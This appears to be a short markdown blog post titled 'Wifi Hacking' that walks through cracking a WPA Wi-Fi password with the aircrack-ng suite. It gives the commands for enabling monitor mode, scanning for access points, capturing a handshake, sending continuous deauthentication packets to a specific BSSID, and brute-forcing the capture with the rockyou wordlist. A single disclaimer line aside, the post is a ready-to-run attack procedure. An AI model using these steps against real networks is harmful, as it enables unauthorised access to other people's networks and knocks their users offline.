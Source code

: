 ```yaml
---
layout: post
title: Wifi Hacking
---
```


**_Disclaimer: This is for educational purpose only, please try in your own environment_**

*Alfa-card is mandatory to search/scan for available Networks*

Steps:

**Connect alfa-card and check the Interfaces**

    ipconfig/iwconfig - This you will give the wlan0 interface

**Start Monitor Mode**

    airmon-ng start wlan0

**Verify its Monitor Mode**

    airmon-ng/iwconfig

**Now Scan/Check for Nearby Available Networks**

    airodump-ng wlan0mon
  
The above command this will display or show list of available networks and make sure you capture and keep a note of AP's MAC address(BSSID) and channel
*AccessPoint(AP)*

**After getting BSSID and Channel id
Start Capturing the Handshake and Attack the same Time or after 5min.**

    airodump-ng -w test -c 11 --bssid BE:A5:8B:65:F8:FE wlan0mon - to capture the Handshake

    aireplay-ng --deauth 0 -a BE:A5:8B:65:F8:FE wlan0mon - to attack the network

**-w to save a file** 

**Now Stop the Monitormode and brute force the captured handshake**

    airmon-ng stop wlan0mon

**Bruteforce the saved file with the wordlists to crack the password**

    aircrack-ng test.cap -w /usr/share/wordlists/rockyou.txt 
